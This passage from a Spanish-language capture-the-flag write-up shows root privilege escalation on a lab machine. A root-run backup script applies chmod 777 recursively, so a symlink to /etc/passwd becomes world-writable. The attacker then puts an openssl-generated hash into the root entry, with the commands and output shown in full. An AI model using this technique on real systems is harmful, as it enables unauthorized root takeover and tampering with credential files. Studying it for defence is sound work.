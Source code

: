 Vemos que se está ejecutando el script `/usr/bin/backup.sh`, asi que vamos a echarle un ojo a ver que hace:

```bash
giovanni@teacher:/dev/shm$ cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
giovanni@teacher:/dev/shm$
```

El script ingresa al directorio `cd /home/giovanni/work`, comprime con el comando `tar` lo que está en `courses/*` y lo guarda en `tmp/`; posterior ingresa a `tmp/` y descomprime lo que hay en el archivo `backup_courses.tar.gz` y por último asigna permisos 777 de forma recursiva a todo lo que se encuentra en `tmp/`.

Por lo que podríamos aprovechar para hacer un link simbólico de un archivo dentro de `tmp/` para que el usuario que ejecuta el script, en este caso **root** asigne los permisos 777.

```bash
giovanni@teacher:~/work/tmp$ ln -s -f /etc/passwd passwd
giovanni@teacher:~/work/tmp$ ls -l
total 8
-rwxrwxrwx 1 root     root      256 Oct 12 05:54 backup_courses.tar.gz
drwxrwxrwx 3 root     root     4096 Jun 27  2018 courses
lrwxrwxrwx 1 giovanni giovanni   11 Oct 12 05:54 passwd -> /etc/passwd
giovanni@teacher:~/work/tmp$
```

Validamos que el archivo `/etc/passwd` tenga los permisos 777.

```bash
giovanni@teacher:~/work/tmp$ ls -l /etc/passwd
-rw-r--r-- 1 root root 1450 Jun 27  2018 /etc/passwd
giovanni@teacher:~/work/tmp$ ls -l /etc/passwd
-rwxrwxrwx 1 root root 1450 Jun 27  2018 /etc/passwd
giovanni@teacher:~/work/tmp$ 
```

Ahora vamos a generar la contraseña `hola` con la herramienta `openssl`:

```bash
giovanni@teacher:~/work/tmp$ openssl passwd
Password: 
Verifying - Password: 
c6FsdpoXH4yFk
giovanni@teacher:~/work/tmp$
```

El resultado lo sustituimos en el archivo `/etc/passwd` para el usuario **root**:

```bash
giovanni@teacher:~/work/tmp$ cat /etc/passwd
root:c6FsdpoXH4yFk:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```